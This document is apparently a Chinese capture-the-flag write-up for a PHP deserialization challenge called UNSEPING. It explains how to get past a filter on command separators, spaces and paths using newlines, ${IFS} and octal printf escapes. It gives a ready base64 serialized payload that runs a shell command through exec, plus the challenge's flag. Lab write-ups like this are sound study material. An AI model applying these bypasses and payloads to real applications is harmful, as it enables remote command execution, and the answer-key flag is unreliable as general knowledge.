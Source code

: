 # UNSEPING

> 首先可看到这是通过POST传递参数ctf进行反序列化的,参数还用到base64编码,考察的是反序列化,把字符串转换为原始的对象结构,php反序列化过程中会调用魔术方法__wakeup,__wakeup又调用waf函数,从waf函数看来明显是绕过waf,对一些字符进行了过滤,要想办法绕过去,绕过去之后, __destruct方法通过call_user_func_array调用ping函数,ping函数又通过exec执行命令,从而达到目的

## 涉及函数

### __construct

> 在类实例化的时候,会自动调用该魔术方法,进行类的初始化

### __destruct

> 明确销毁对象或脚本结束时被调用

### in_array

> in_array(value,array,type)

> 判断一个值是否在数组

### array

> 创建数组

### call_user_func_array

>  call_user_func_array(callback $function, array \$param_arr)

> 把\$param_arr数组中的每个值作为参数在$function里执行.

### exec

> exec(string command, string [array], int [return_var]), command为执行的命令, array为执行的结果,return_var是返回值0或1,如果返回0则执行成功,返回1则执行失败

> 执行命令

### preg_match_all

> preg_match_all(pattern,subject,matches,flags,offset)

> 函数用于执行一个全局正则表达式匹配,可以搜索字符串中所有可以和正则表达式匹配的结果

### __wakeup

> 当使用unserialize时被调用,可用于做些对象的初始化操作

### var_dump

> 用于输出变量的相关信息

## 思路分析

> 通过代码可以分析得到,过滤了命令连接符号&、|、；因此常用命令连接符不可用,可以使用"%0a、%0d"及"\n,\v".

> 空格符号也被过滤,可以使用tab、${IFS}或者$IFS$9

> 路径连接符也被过滤,可以使用八进制、十六进制等编码绕过

> 通过__destruct函数可知构建的字符串中$method的值得是ping

> 先执行ls命令(八进制为\154\163)发现flag_1s_here目录,然后执行ls flag_1s_here命令(八进制为\154\163\32\146\154\141\147\137\49\163\137\150\145\162\145)存在flag_831b69012c67b35f.php文件,读取flag命令cat flag_1s_here/flag_831b69012c67b35f.php(八进制为\143\141\164\40\146\154\141\147\137\61\163\137\150\145\162\145\57\146\154\141\147\137\70\63\61\142\66\71\60\61\62\143\66\67\142\63\65\146\56\160\150\160)

> 八进制编码绕过, $(printf "\154\163") ==>ls,至于为什么$(printf "\154\163")是ls,这是因为exec调用的linux的shell执行命令的,在shell中printf "\154\163"是输出ls的意思,在bash shell中,$( )与\` \`(反引号)都是用来做命令替换用的,命令替换是用来重组命令行的,先完成里面的命令,然后将其结果替换出来,再重组成新的命令行

## payload

> Tzo0OiJlYXNlIjoyOntzOjEyOiIAZWFzZQBtZXRob2QiO3M6NDoicGluZyI7czoxMDoiAGVhc2UAYXJncyI7YToxOntpOjA7czoxNjQ6IiQocHJpbnRmCSJcMTQzXDE0MVwxNjRcNDBcMTQ2XDE1NFwxNDFcMTQ3XDEzN1w2MVwxNjNcMTM3XDE1MFwxNDVcMTYyXDE0NVw1N1wxNDZcMTU0XDE0MVwxNDdcMTM3XDcwXDYzXDYxXDE0Mlw2Nlw3MVw2MFw2MVw2MlwxNDNcNjZcNjdcMTQyXDYzXDY1XDE0Nlw1NlwxNjBcMTUwXDE2MCIpIjt9fQ==

## flag

> cyberpeace{5b158a7191487ed87f0caad4279e18e3}